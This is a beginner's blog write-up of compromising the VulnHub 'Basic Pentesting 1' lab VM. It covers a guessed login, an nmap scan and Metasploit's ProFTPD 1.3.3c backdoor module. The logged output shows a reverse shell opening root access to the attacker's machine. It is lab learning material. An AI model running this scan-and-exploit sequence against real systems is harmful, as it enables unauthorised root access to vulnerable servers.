 ```yaml
---
layout: post
title:  "First Time Pentesting"
excerpt: "The start of my journey into hatland"
date:   2019-10-31 01:03:20 -0500
---
```


&nbsp;&nbsp;&nbsp;&nbsp;After all this time of being a fake hacker (aka someone who just uses linux and holds his nose up at other people) I finally decided to actually get my head into some real penetration testing.
 I popped open the first entry level vulnerable vm from vulnhub, [Basic Pentesting 1](https://www.vulnhub.com/entry/basic-pentesting-1,216/) to see what I'm getting into and how my skills stand.

&nbsp;&nbsp;&nbsp;&nbsp;The following details my process of what I did to crack this vm and gain root privelages.
 Unfortuantley there's no real instructions on what to do, so I just figured I'd start the vm and try to log in.

![VM Login](/assets/2019-10-31-first-time-pentesting/vm_login.png)

So there's 2 users: a named user (marlinspike) and a guest user.
 Not so sure what to do with that, so I'm just gonna try to take a guess at marlinspikes username.
 Let's try marlinspike (the username as the pw).
 ```
 login succeeded (use your imagination if you have to. its an ubuntu login ffs).
 ```

![Files](/assets/2019-10-31-first-time-pentesting/files.png)

Ok so there's a lot of files.
 Theres some gzipped files, and then a bunch of other junk.
 Time to just peek around and take note of anything useful.
 Interestingly enough theres a wordpress directory in that same folder.
 I'm not super well versed but i'm gonna guess that this vm is running a wordpress server.
 Wordpress has all kinds of vulnerabilities.

&nbsp;&nbsp;&nbsp;&nbsp;I have a feeling that actually logging into the vm isnt what you're supposed to do.
 Trying sudo give me root (with marlinspike as the pw), so thats obviously not how I'm supposed to go about this.
 I'm just gonna try to find the wordpress server from my host and try to get a remote shell (which is what probably is expected here).

 What I know about the wordpress server is that its gotta be running from some ip on my network, but which IP?
 Well, I know from `vboxmanage` the ip of the vm is `192.168.0.16`.
 Hitting that ip with `ping` I manage to get something back, so maybe navigating to it in firefox I'll find out a little more. 

 
![Web Server](/assets/2019-10-31-first-time-pentesting/webpage.png)

 Bingo, theres the webpage!
 That's nice and all, but still not a whole lot to work with.

&nbsp;&nbsp;&nbsp;&nbsp;I've heard in these ctf like things theres generally some information hidden in the source code for the page.
 ```
 <html><head></head><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>

</body></html>
 ```
 Well no hint there, and it doesnt look like there's anything useful going on in the network tools in the inspector for FireFox either.
 Knowing this, I'll bet that this isn't like the JuiceShop ctf, where you can just search around and find the vulnerabilties.
 This is likely one where you are litterally trapped in the maze and have to use your instincts and tools to guide to the root of the issue.
 Unfortunately for me though, I dont know much about my tools.
 I still have my instincts though, and right now my instincts are still telling me that there's got to be something worth attackin on this server (probably wordpress).
 I just need to figure out what version of what thing to attack.

&nbsp;&nbsp;&nbsp;&nbsp;I did a little intro to nmap and I know that I have `nmap -A` which will give me some details about the host I'm scanning, so I'm gonna try that.
```
$ nmap -A 192.168.0.16

Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-30 22:54 CDT
Nmap scan report for 192.168.0.16
Host is up (0.00024s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

 I've got a little info from this.
 It did not turn up the wordpress server like i was expecting, but there is an ftp service active on tcp ::21.
 I have nothing else to go off of so I'm gonna try to go after the ftp service.
 
 Once again, not super well versed with my tools, but if there is a way to to beat my way into ProFTPD metasploit is gonna have it.
 I've learned that you can search exploits for known vulnerabilites in exploitDB, for which there is a command line tool for, or a web service.
 I'm going to try the web service first so I dont have to download the full db (if I was using Kali instead of Arch I would just update exploitdb, but I'm on an arch host right now).

&nbsp;&nbsp;&nbsp;&nbsp;According to [exploitDb](https://www.exploit-db.com/search?q=ProFTPD+1.3.3) there is a remote code executation vulnerability I can try to exploit.
 So I'm gonna try to load that into metasploit then go from there.

 Opening up metasploit console
 ```
 msfconsole

 msf5 > search proFTPD

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   3  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   4  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
   5  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
```
Our boy is number 4

```
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.0.16
RHOST => 192.168.0.16
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > show options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.0.16     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
and time for the magic.

```
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.0.15:4444 
[*] 192.168.0.16:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UR0HgFV7llm3vRNu;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UR0HgFV7llm3vRNu\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.0.15:4444 -> 192.168.0.16:55224) at 2019-10-30 23:29:47 -0500

whoami
root
```
 Holy crap metasploit is a monster!
 I'm in with next to nothing and I have a root shell.
 Based of the description of this problem I think I've solved the issue (and having the power of internet this seems to be the general solution as well).

## Conlusions
&nbsp;&nbsp;&nbsp;&nbsp;I've managed to get a root shell on the Basic Pentesting 1 vm so I've completed the scenario.
 I've learned quite a few things.
 1. Not all ctfs are going to give an explicit entry point.
 2. The entry point is often a locked door, and the name of the game is to break in.
 3. I seem to have decent enough instincts on what things to go after (though this is a very beginner box) from all the podcasts I listen to, but I dont know how to go after it or good knowledge of my tools. I should be learning more about what basic pentesting tools do. Maybe going through a Kali course would teach me that.
